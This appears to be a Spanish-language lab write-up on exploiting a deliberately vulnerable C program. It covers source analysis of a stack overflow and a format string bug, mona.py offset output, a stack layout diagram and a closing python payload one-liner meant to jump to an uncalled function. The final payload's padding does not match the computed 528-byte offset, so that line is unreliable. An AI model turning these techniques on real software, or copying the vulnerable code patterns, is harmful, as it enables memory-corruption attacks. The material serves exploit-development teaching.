


# Análisis del código fuente

```
#include <stdio.h>

void call_me() {
	printf("You cannot call me, noob!\n");
}

void parse_file(char* filename){
	char buffer[512];

	printf("Abriendo fichero %s ...\n", filename);

	FILE *f = fopen(filename, "r");
	if(f == NULL){
		printf("Fallo al abrir el fichero :(\n");
		return;
	}
	printf("Leyendo fichero %s ...\n", filename);

	fread(buffer, 1, 1024, f);
	printf("Fichero leido! Contenido: \n");
	printf(buffer);

	fclose(f);
	return;
}

int main(int argc, char** argv) {
	if(argc != 2){
		printf("Uso: %s <fichero>\n", argv[0]);
		return -1;
	}

	parse_file(argv[1]);
	return 0;
}
```
donde:
- El código tiene tres funciones:
  - `call_me()` → no se llama desde ningún punto del programa. El objetivo es forzar su ejecución mediante un exploit (por ejemplo, modificando la dirección de retorno en la pila).
  - `parse_file(char* filename)` → abre y lee un fichero.
  - `main()` → comprueba argumentos y llama a parse_file.
- `buffer[512]` → reserva 512 bytes en la pila.
- `fread(buffer, 1, 1024, f);` → Error de seguridad crítica: Se está leyendo 1024 bytes en un buffer de solo 512 bytes ➡️ Esto provoca un desbordamiento de buffer (stack overflow).
- Un atacante puede escribir más allá del límite de buffer y sobrescribir la dirección de retorno de `parse_file()`, pudiendo hacer que el programa salte a `call_me()`.
- 🧨🧨🧨 `buffer [512 bytes] + EBP + RET` ➟➟➟ Si el atacante introduce 512 bytes de relleno + dirección de `call_me()` (en little-endian), al retornar de `parse_file()` se ejecutará `call_me()`.
- 🧨🧨🧨 Vulnerabilidad adicional ➟➟➟ Formato de cadena: `printf(buffer);` ➟➟➟ Esto abre una vulnerabilidad de formato de cadena (format string vulnerability). `printf()` intentará leer del stack como si hubiera parámetros adicionales, lo que puede filtrar direcciones de memoria o incluso permitir escritura arbitraria (mediante %n).

| Tipo de vulnerabilidad                              | Descripción                                                          | Consecuencia posible                                         |
| --------------------------------------------------- | -------------------------------------------------------------------- | ------------------------------------------------------------ |
| **Desbordamiento de buffer (stack overflow)**       | `fread(buffer, 1, 1024, f)` escribe más allá del límite de 512 bytes | Ejecución arbitraria de código (p. ej. saltar a `call_me()`) |
| **Formato de cadena (format string vulnerability)** | `printf(buffer);` sin especificar formato                            | Filtración o modificación de memoria                         |


# Análisis con mona.py
```
================================================================================
  Output generated by mona.py v2.0, rev 643 - Immunity Debugger
  Corelan Consulting bv - https://www.corelan.be
================================================================================
  OS : 7, release 6.1.7601
  Process being debugged : stack1 (pid 3028)
  Current mona arguments: findmsp
================================================================================
  2025-11-12
================================================================================
----------------------------------------------------------------------------------------------------------------------------------------------
 Module info :
----------------------------------------------------------------------------------------------------------------------------------------------
 Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | CFG   | NXCompat | OS Dll | Version, Modulename & Path, DLLCharacteristics
----------------------------------------------------------------------------------------------------------------------------------------------
 0x0dce0000 | 0x0dd2b000 | 0x0004b000 | False  | True    | True  | False |  True    | True   | 6.1.7601.18015 [KERNELBASE.dll] (C:\Windows\system32\KERNELBASE.dll) 0x140
 0x77ec0000 | 0x78002000 | 0x00142000 | False  | True    | True  | False |  True    | True   | 6.1.7600.16385 [ntdll.dll] (C:\Windows\SYSTEM32\ntdll.dll) 0x140
 0x77de0000 | 0x77eb5000 | 0x000d5000 | False  | True    | True  | False |  True    | True   | 6.1.7601.18015 [kernel32.dll] (C:\Windows\system32\kernel32.dll) 0x140
 0x6ff50000 | 0x6fffc000 | 0x000ac000 | False  | True    | True  | False |  True    | True   | 7.0.7601.17744 [msvcrt.dll] (C:\Windows\system32\msvcrt.dll) 0x140
 0x00400000 | 0x0045b000 | 0x0005b000 | False  | False   | True  | False |  True    | False  | -1.0- [stack1.exe] (C:\Users\IEUser\Desktop\M4-tarea1\stack1\stack1.exe) 0x140
-----------------------------------------------------------------------------------------------------------------------------------------
[+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x00572838 (length 540 bytes)
    Cyclic pattern (normal) found at 0x00573850 (length 540 bytes)
    Cyclic pattern (normal) found at 0x0022f650 (length 44 bytes)
    Cyclic pattern (normal) found at 0x0022fc9c (length 540 bytes)

[+] Examining registers
    EIP contains normal pattern : 0x41367241 (offset 528)
    ESP (0x0022feb0) points at offset 532 in normal pattern (length 8)
    EBP contains normal pattern : 0x35724134 (offset 524)

[+] Examining SEH chain

[+] Examining stack (entire stack) - looking for cyclic pattern
    Walking stack from 0x0022e000 to 0x0022fffc (0x00001ffc bytes)
    0x0022f650 : Contains normal cyclic pattern at ESP-0x860 (-2144) : offset 0, length 44 (-> 0x0022f67b : ESP-0x834)
    0x0022f6b4 : Contains normal cyclic pattern at ESP-0x7fc (-2044) : offset 100, length 52 (-> 0x0022f6e7 : ESP-0x7c8)
    0x0022f718 : Contains normal cyclic pattern at ESP-0x798 (-1944) : offset 200, length 8 (-> 0x0022f71f : ESP-0x790)
    0x0022f724 : Contains normal cyclic pattern at ESP-0x78c (-1932) : offset 212, length 328 (-> 0x0022f86b : ESP-0x644)
    0x0022fc9c : Contains normal cyclic pattern at ESP-0x214 (-532) : offset 0, length 540 (-> 0x0022feb7 : ESP+0x8)

[+] Examining stack (entire stack) - looking for pointers to cyclic pattern
    Walking stack from 0x0022e000 to 0x0022fffc (0x00001ffc bytes)
    0x0022eb90 : Pointer into normal cyclic pattern at ESP-0x1320 (-4896) : 0x0022f770 : offset 288, length 252
    0x0022ec68 : Pointer into normal cyclic pattern at ESP-0x1248 (-4680) : 0x0022f770 : offset 288, length 252
    0x0022ef6c : Pointer into normal cyclic pattern at ESP-0xf44 (-3908) : 0x0022f798 : offset 328, length 212
    0x0022f4c8 : Pointer into normal cyclic pattern at ESP-0x9e8 (-2536) : 0x0022f650 : offset 0, length 44
    0x0022f5cc : Pointer into normal cyclic pattern at ESP-0x8e4 (-2276) : 0x0022f650 : offset 0, length 44
    0x0022f5e8 : Pointer into normal cyclic pattern at ESP-0x8c8 (-2248) : 0x0022f650 : offset 0, length 44
    0x0022f604 : Pointer into normal cyclic pattern at ESP-0x8ac (-2220) : 0x0022f650 : offset 0, length 44
    0x0022f640 : Pointer into normal cyclic pattern at ESP-0x870 (-2160) : 0x00572838 : offset 0, length 540
    0x0022f8a0 : Pointer into normal cyclic pattern at ESP-0x610 (-1552) : 0x00573850 : offset 0, length 540
    0x0022f900 : Pointer into normal cyclic pattern at ESP-0x5b0 (-1456) : 0x00573850 : offset 0, length 540
    0x0022f904 : Pointer into normal cyclic pattern at ESP-0x5ac (-1452) : 0x00573850 : offset 0, length 540
    0x0022f91c : Pointer into normal cyclic pattern at ESP-0x594 (-1428) : 0x0022f864 : offset 532, length 8
    0x0022fab4 : Pointer into normal cyclic pattern at ESP-0x3fc (-1020) : 0x00573850 : offset 0, length 540
    0x0022fb08 : Pointer into normal cyclic pattern at ESP-0x3a8 (-936) : 0x00573850 : offset 0, length 540
    0x0022fb50 : Pointer into normal cyclic pattern at ESP-0x360 (-864) : 0x00573850 : offset 0, length 540
    0x0022fc04 : Pointer into normal cyclic pattern at ESP-0x2ac (-684) : 0x00572838 : offset 0, length 540
    0x0022fc64 : Pointer into normal cyclic pattern at ESP-0x24c (-588) : 0x0022fc9c : offset 0, length 540
```
donde:
- El patrón de 540 bytes en `0x0022fc9c` (stack) demuestra que el `fread` sobreescribe los 512 bytes del buffer.
- **EIP** contains normal pattern … (offset 528) → Hemos sobrescrito la dirección de retorno con el patrón en el desplazamiento **528. Ese es el offset correcto hasta EIP.**
- **EBP** contains normal pattern … (offset 524) → El EBP salvado está **4 bytes antes de EIP, en offset 524.**
- **ESP** (0x0022feb0) points at offset 532 … (length 8) → **El puntero de pila en el crash está justo después de EIP, apuntando al offset 532 del patrón (o sea, a los primeros 4 bytes que siguen al RET).**


```sql
offset 0        → inicio del patrón (empieza a llenar buffer[512])
offset 0..511   → buffer[512]
offset 512..515 → (posibles bytes de alineación/compilador)
offset 524..527 → saved EBP  (4 bytes que son pisados por el patrón)
offset 528..531 → RET / EIP  (4 bytes que son pisados por el patrón)
offset 532..    → lo que apunta ESP (los datos que vendrían “después del RET”)
```
<mark>`buffer[512] + padding[12] + saved EBP[4] + RET[4] + (datos a los que ESP apunta))`</mark>



donde:
- RET/EIP queda controlado en el offset 528.
- El saved EBP cae en el offset 524.
- ESP apunta justo después (offset ~532), lo que cuadra con la longitud de el patrón (~540).
- El offset “verdadero” para el binario es 528.
- 

## Vamos a modificar el fujo del programa
```
python -c "import sys; sys.stdout.write('A'*512+'\x00\x00\x00\x00'+'\x00\x00\x00\x00'+'\x00\x00\x00\x00'+'0x42424242'+'\x30\x15\x40\x00') " > pattern.txt
```


